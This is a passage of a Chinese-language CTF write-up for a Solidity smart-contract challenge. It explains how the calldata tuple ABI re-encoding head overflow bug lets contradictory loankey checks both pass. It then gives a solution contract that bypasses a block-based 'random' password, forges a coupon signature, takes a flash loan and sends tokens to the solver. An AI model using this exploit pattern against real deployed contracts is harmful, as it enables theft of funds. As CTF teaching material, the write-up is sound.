 因为这个函数即使限制了amount<=300，但是依旧是一笔不错的收入。_ebalances可以得到显著增加。

查找有关flashloan的调用，可以定位到 testborrowtwice() 函数

````solidity
function testborrowtwice(SignCoupon calldata scoupon) public {
    require(scoupon.coupon.loankey == 2233);
    MyToken(this).flashloan(scoupon);
}
````

> 这里有个问题：scoupon.coupon.loankey == 2233 ，到了flashloan() 函数里面，却要求 scoupon.coupon.loankey == 0。为何能正常通过呢？

对于这道题，`bytes reason` 是一个bug字段，会造成第一个字段也就是loankey变成0。 因此可以连续通过 testborrowtwice 和 flashloan 看似矛盾的验证。 
BUG全称为：Head Overflow Bug in Calldata Tuple ABI-Reencoding，0.5.8引入，0.8.16被修复。[参阅链接](https://blog.soliditylang.org/2022/08/08/calldata-tuple-reencoding-head-overflow-bug/) 。

下面给出示例solution.sol代码

```solidity
// SPDX-License-Identifier: MIT
// OpenZeppelin Contracts (last updated v4.7.0) (token/ERC20/ERC20.sol)

pragma solidity ^0.8.2;

import "./ctf.sol";

interface HappyBiliAPI {
    function auth1(uint pass_) external;
    function auth2(uint pass_) external;
    function testborrowtwice(SignCoupon calldata scoupon) external;
    function buy(uint amount) external;
    function transfer(address to, uint256 amount) external;
    function deposit() external;
    function borrow(uint amount) external;
}

contract solution {
    HappyBiliAPI constant private instance = HappyBiliAPI(0x053cd080A26CB03d5E6d2956CeBB31c56E7660CA);

    function solve() public {
        instance.auth1(22331024);
        instance.auth2(uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
        // instance.deposit();
        // instance.borrow();
        Coupon memory coupon = Coupon(2233, 300, address(this), "bilibili");
        Signature memory sign = Signature(1, [bytes32("a"), bytes32("b")]);
        SignCoupon memory sc = SignCoupon(coupon, sign);
        instance.testborrowtwice(sc);
        instance.buy(300);
        address myWallet = {这里填你的钱包地址};
        instance.transfer(address(myWallet), 300);
    }

    // call deposit() -> sale() -> withdraw() -> sale() -> withdraw()
    // can also use buy() to increase your balances
}
```
